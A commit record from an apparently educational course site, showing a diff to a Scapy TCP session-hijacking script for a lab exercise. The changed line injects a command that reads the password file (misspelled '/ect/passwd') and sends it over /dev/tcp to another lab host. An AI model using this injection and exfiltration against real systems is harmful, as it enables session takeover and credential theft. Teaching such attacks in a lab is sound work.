

Before and after one commit to ycpcs/cs335-spring2022, a Jekyll site: the page built from code/tcp/session_hijack.md, in a window 1280 px wide. Shown: the top 520 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
read password file

```diff
--- a/code/tcp/session_hijack.md
+++ b/code/tcp/session_hijack.md
@@ -17,7 +17,7 @@ print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer = IP(src="10.0.2.15", dst="10.0.2.4")
 TCPLayer = TCP(sport=46716, dport=23, flags="A", seq=3809825950, ack=1182374470)
 
-Data = "\r cat /home/seed/Desktop/secret_file.txt > /dev/tcp/10.0.2.5/9090\r"
+Data = "\r cat /ect/passwd > /dev/tcp/10.0.2.5/9090\r"
 pkt = IPLayer/TCPLayer/Data
 
 pkt.show()
```
